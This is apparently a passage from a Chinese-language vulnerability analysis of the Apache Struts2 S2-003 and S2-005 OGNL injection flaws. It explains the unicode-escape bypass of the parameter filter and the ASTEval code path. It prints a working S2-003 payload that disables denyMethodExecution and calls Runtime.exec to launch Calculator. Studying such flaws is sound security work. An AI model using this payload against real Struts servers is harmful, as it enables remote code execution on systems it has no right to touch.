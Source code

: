 ```java
    return !e ? this.callStaticMethodWithDebugInfo(context, aClass, string, objects) : null; //return super.callStaticMethod(context, aClass, methodName, objects);
}           
```
(2) 其中对name进行过滤没有考虑到编码的问题。OGNL底层支持unicode编码或八进制，也就是说虽然禁止了`#context`这样调用对象，但是可以通过`\u0023context`来绕过。所以在官方漏洞说明中提到的是*绕过ParameterInterceptor内置的对于#使用的保护*。
```java
protected boolean acceptableName(String name) {
    return name.indexOf(61) == -1 && name.indexOf(44) == -1 && name.indexOf(35) == -1 && name.indexOf(58) == -1;
} // 分别对应 `=` `,` `#` `:`
```

可以看到S2-003触发点是`OgnlValueStack.setValue()`，调用到`OgnlUtil.setValue()`时会对name进行`compile()`操作，实际上就是将name转换成对应的数据类型。
```
ASTSequence: "c[0],c[1]..."
ASTMap:  var@ClassName@{key:value} or #var{key:value}
ASTList: {c[0],c[1]}
ASTConst: "" 
ASTAssign: c[0]=c[1]
ASTChain: c[0].c[1]
ASTEval: (c[0])(c[1]) 
ASTKeyValue: key->value
ASTProject: {c[0]}
ASTProperty: [c[0]]
```
S2-003的pyaload形如`('\u0023')(bla)(bla)&(a)(('\u0023')(bla))`，对应的就是ASTEval。那么`OgnlUtil.setValue()`调用的就是`ASTEval.setValueBody()`，代码如下。
```java
protected void setValueBody(OgnlContext context, Object target, Object value) throws OgnlException {
    Object expr = this.children[0].getValue(context, target); // ASTEval.getValueBody()
    Object previousRoot = context.getRoot();
    target = this.children[1].getValue(context, target);
    Node node = expr instanceof Node ? (Node)expr : (Node)Ognl.parseExpression(expr.toString());
    context.setRoot(target);
    node.setValue(context, target, value);
}
```
它把每个括号内的内容当成一个children，获取对应的值，调用`ASTEval.getValueBody()`，该方法和上述代码极为类似，只是将`node.setValue()`变成了`node.getValue()`。如果此时解析的node是OGNL表达式，那么在`node.getValue()`时就会触发表达式执行。

### S2-005
S2-005是S2-003修复的绕过。先看S2-003的payload
```
('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003dfalse')(bla)(bla)&
('\u0023myret\u003d@java.lang.Runtime@getRuntime().exec(\'open\u0020/System/Applications/Calculator.app\')')(bla)(bla)
```
(1)将denyMethodExecution属性值改为false，(2)调用了静态方法`@java.lang.Runtime@getRuntime()`。两步都是为了调用静态方法。所以S2-003在修复时，也是为了保护静态方法不被调用。  

